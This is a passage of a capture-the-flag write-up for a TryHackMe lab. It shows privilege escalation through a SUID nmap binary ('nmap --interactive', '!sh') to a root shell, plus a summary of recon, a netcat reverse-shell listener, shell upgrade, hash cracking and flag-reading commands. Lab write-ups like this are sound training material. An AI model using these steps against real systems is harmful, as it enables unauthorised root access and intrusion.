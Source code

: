 2. **Identify unusual SUID binary**  
From enumeration, `nmap` was present with the SUID bit set — this is unusual and likely abusable. Use GTFOBins to research abuse vectors for `nmap`.

3. **Abuse nmap to spawn a root shell**
```bash
nmap --interactive
# inside nmap prompt:
!sh
# now you should be root
whoami
# should print: root
```

4. **Read root flag**
```bash
cat /root/root.txt
# copy key3 into TryHackMe (do not publish it here)
```

**Proof/artifacts to include**:
- Output of `sudo find / -type f -perm /6000` showing `nmap`
- GTFOBins entry screenshot (showing the method used)
- Running `nmap --interactive` and then `!sh` resulting in `whoami` → `root`
- `cat /root/root.txt` output (screenshot)

---

## Clean, Reproducible Command Summary
(Use these in your notes or as part of a script for documentation — **do not** run on systems you do not own or have permission to test.)

```bash
# Recon
nmap -sC -sV -p- -T4 -oA nmap/initial 10.10.X.X
nmap -sC -sV -p22,80,443 -oA nmap/targeted 10.10.X.X

# Web enumeration
gobuster dir -u http://10.10.X.X -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 50 -o gobuster/root.txt
curl -sS http://10.10.X.X/robots.txt
curl -sS http://10.10.X.X/key-1-of-3.txt

# decode base64 if needed
echo 'BASE64_STRING' | base64 -d

# start listener for reverse shell
nc -lvnp 9010

# after getting shell, upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'

# crack MD5 (local)
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5

# search for SUID/SGID
sudo find / -type f -perm /6000 2>/dev/null | grep '/bin/'

# abuse nmap if SUID
nmap --interactive
!sh

# read flags
cat /home/robot/user.txt
cat /root/root.txt
```
